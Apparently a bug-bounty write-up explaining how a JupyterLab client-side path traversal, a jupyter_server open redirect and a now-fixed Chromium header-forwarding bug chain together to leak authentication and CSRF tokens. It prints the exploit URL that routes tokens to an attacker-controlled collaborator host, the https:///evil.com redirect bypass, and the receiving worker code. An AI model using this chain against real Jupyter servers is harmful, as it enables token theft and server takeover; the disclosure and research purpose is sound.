

# Leaking Jupyter instance auth token chaining CVE-2023-39968, CVE-2024-22421 and a chromium bug


After getting an invitation to [Jupyter](https://app.intigriti.com/researcher/programs/jupyter/jupyter/detail)'s private (then public and now not active anymore) program on [Intigriti](https://www.intigriti.com/) I decided to dig into its codebase. Spending a few hours I found a client side path traversal issue chaining which with an open redirect and a chromium issue, I was able to leak Jupyterlab's authentication and csrf tokens.
<!--more-->


### Client side path traversal

To find a client side path traversal I usually go one of these ways: blackboxy, i.e. spraying `../../../traversed` in all the query string or fragment parameters, or whiteboxy, i.e. manually looking for fetch/xhr sinks in javascript code. In this case, I started with spraying, then finding out the root cause of the issue.\
Reading the docs, I found [`clone`](https://jupyterlab.readthedocs.io/en/latest/user/urls.html#cloning-workspaces) parameter which would, as the name suggests, clone a workspace. I navigated to [http://localhost:8888/lab?clone=anything](http://localhost:8888/lab?clone=anything) (localhost:8888 is a jupyterlab local instance) and saw the reflection in the api request path.


Then I tried to go back a few levels by opening the following URL [http://localhost:8888/lab?clone=../../../traversed](http://localhost:8888/lab?clone=../../../traversed), and to my surprise, it worked, the app traversed back from the `workspaces` api endpoint to `/traversed`


But why would this work? To understand it we should start with the source, i.e. where the app starts processing `clone` query parameter, and see how it reaches the request sink. The source is located on line 439 at [packages/apputils-extension/src/index.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/apputils-extension/src/index.ts#L438-L453) and is being passed to `workspaces.fetch` on line 453.


Then `workspaces.fetch` passes it to `makeRequest` at [packages/services/src/workspace/index.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/services/src/workspace/index.ts#L48) on line 48, after joining the path unsafely (`id`, i.e. malicious path via delivered via `clone` query parameter, being appended to the initial path) with URLExt.join ([packages/coreutils/src/url.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/coreutils/src/url.ts#L55)).


And makeRequest (handleRequest) appends authorization and csrf headers at [packages/services/src/serverconnection.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/services/src/serverconnection.ts#L283-L293) on lines 283-293




### Open redirect

Now was the time I started looking for an open redirect or other ways I could store and serve my content to `workspaces.fetch` request.
Opening [http://localhost:8888/lab](http://localhost:8888/login?next=%2Flab) in an unauthenticated browser session I noticed I was redirected to [http://localhost:8888/login?next=%2Flab](http://localhost:8888/login?next=%2Flab), so I went into [jupyter_server](https://github.com/jupyter-server/jupyter_server) codebase to find out if `next` parameter was checking the redirect uri properly.

Searching for `next` led me to [jupyter_server/auth/login.py](https://github.com/jupyter-server/jupyter_server/blob/cd8010e2335de29e6f9d7b98cd496b0695bc0ed3/jupyter_server/auth/login.py#L67), which was passing it to `_redirect_safe` on line 67.


On line 45 it is stated that if the parsed uri does not have a `netloc`, `next` query param will be used to redirect as is (line 61) [jupyter_server/auth/login.py](https://github.com/jupyter-server/jupyter_server/blob/cd8010e2335de29e6f9d7b98cd496b0695bc0ed3/jupyter_server/auth/login.py#L45)


This check was possible to bypass with a url like the following - https:///evil.com (it won't have a netloc)


So the following URL - [http://localhost:8888/login?next=https:///evil.com](http://localhost:8888/login?next=https:///evil.com), will successfully redirect an authenticated client to https://evil.com 


### Leaking the authentication and csrf tokens

To test the issue I tried redirecting to a burp collaborator instance and see if the client would make a request to it after being redirected with the following url
```
http://localhost:8888/lab?clone=../../../login%3fnext%3dhttps%3a%2f%2f%2fmyid.oastify.com
```

Oastify, being not the same origin, triggered CORS process requiring the server to allow the following headers.
```HTTP
Access-Control-Request-Headers: authorization,content-type,x-xsrftoken
```

So I created a cloudflare worker with the following code
``` javascript
const headers = { 
    "Content-Type": "application/json",
    "Access-Control-Allow-Origin": "*",
    "Access-Control-Allow-Headers": "authorization,content-type,x-xsrftoken"
}
const fileBr = {
    data: {
    }
}


export default {
  async fetch(request, env, ctx) {
    return new Response(JSON.stringify(fileBr),{headers});
  },
};
```

The weirdest part was that the custom set headers were also being forwarded to my origin even after being redirected.


These credentials can then be used to get access to the server simply by navigating to `http://localhost:8888/lab?token=<leaked-token>`.

### Chromium bug

At first, I thought it was an issue in [follow-redirects](https://www.npmjs.com/package/follow-redirects) package, as it had a similar vulnerability https://security.snyk.io/vuln/SNYK-JS-FOLLOWREDIRECTS-2332181 and jupyterlab had the vulnerable version. So I left it as is without taking a proper look into it.

After about a month I encountered the same issue on another program. This time it was passed into fetch API directly (not into a wrapper).


Just to be sure 😅, I have created a similar poc at https://chromium-poc-53c4.xssam.workers.dev/?id=../../redirect/?url=https://chromium-poc-cors-dd35.xssam.workers.dev/ AND IT WORKED !!.


I have previously seen similar behavior on mobile apps, but chromium doing the same, was something unexpected. So I just created a ticket in the chromium bug tracker and got a quick response that it was a duplicate of a closed issue.


This has since been fixed, and chromium does not forward custom set headers on redirect anymore.


### Closing words and tooling 

Client side path traversal vulnerabilities are quite common in single-page applications and it is always worth looking for them. I have been encountering similar issues pretty often, so to ease the process of finding path traversals, I have developed (shamelessly copied from various places) a chromium extension that will log the xhr/fetch reflected parameters in a popup https://github.com/davwwwx/Reflection-Logger.


The extension is at a very early stage, so if you want a more stable tool please use Burp Suite extension at https://github.com/doyensec/CSPTBurpExtension, introduced by an amazing research whitepaper by Doyensec team https://www.doyensec.com/resources/Doyensec_CSPT2CSRF_Whitepaper.pdf.
